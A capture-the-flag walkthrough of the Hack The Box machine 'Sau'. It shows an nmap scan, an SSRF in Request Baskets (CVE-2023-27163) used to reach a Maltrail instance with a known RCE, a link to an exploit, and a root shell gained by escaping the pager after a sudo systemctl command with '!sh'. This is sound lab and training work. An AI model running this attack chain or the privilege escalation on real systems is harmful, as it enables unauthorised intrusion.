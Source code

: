 ```yaml
---
description: Easy machine.
---
```


# Sau

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

## port scan result

```bash
└─➜ nmap 10.10.11.224 -sCV -T5 | tee ports.scan                                                                                                                               [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-30 17:56 IST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.40s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 30 Dec 2023 12:27:17 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 30 Dec 2023 12:26:36 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 30 Dec 2023 12:26:38 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=12/30%Time=65900C81%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;

<--SNIPPED-->

SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.89 seconds
```

* No need of directory bruteforcing for this machine.

## Homepage

* Upon visiting the homepage, we can see that the machine is using vulnerable version of `Request Basket`

![image](https://gist.github.com/assets/56447720/eb023cd7-4f7f-4d5e-b26d-f01b547514d6)

* Read more about this vuln:
* https://github.com/entr0pie/CVE-2023-27163

{% embed url="https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7" %}

## Web Exploit

> Request-baskets is a web application built to collect and register requests on a specific route, so called basket. When creating it, the user can specify another server to forward the request.

* So basically, after creating a basket you can enable forward\_url with malicious IP, so if someone visit your basket, request is forwarded to malicious IP.
* An attacker can put localhost IP and can get information that are not meant to be public.
* Since port 80 was open (filtered) we can ask for request basket to fetch data for us.

### 1. Create a new basket

![image](https://gist.github.com/assets/56447720/a794e96e-0233-4c11-b91d-870b7508517a)

* After creating, it will prompt you with token, Click on Open basket

### 2. Forward Request

* Click on settings

![image](https://gist.github.com/assets/56447720/f94c8f05-19aa-4dbe-be4e-41c09655e67d)

* Configure with following settings

![image](https://gist.github.com/assets/56447720/1c42906f-08f3-4902-a6b6-ccde4bc21dd5)

### 3. Info leak

* After visiting our basket `(sau.htb:55555/<basket_name>)` ![image](https://gist.github.com/assets/56447720/f979ab45-dac0-4475-acb3-c5d0b507c70f)
* We can see it's using Mailtrail
* Upon google search, we can see it's vulnerable to RCE.
* Read more about the vuln :&#x20;

{% embed url="https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5" %}

## User Shell

* [**https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53**](https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53)

![image](https://gist.github.com/assets/56447720/c81e29ab-ce81-4375-bd5f-d591203b7912)

## Root shell

```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```

* Resource:

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/" %}

```bash
$ sudo  /usr/bin/systemctl status trail.service
sudo  /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
#
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning
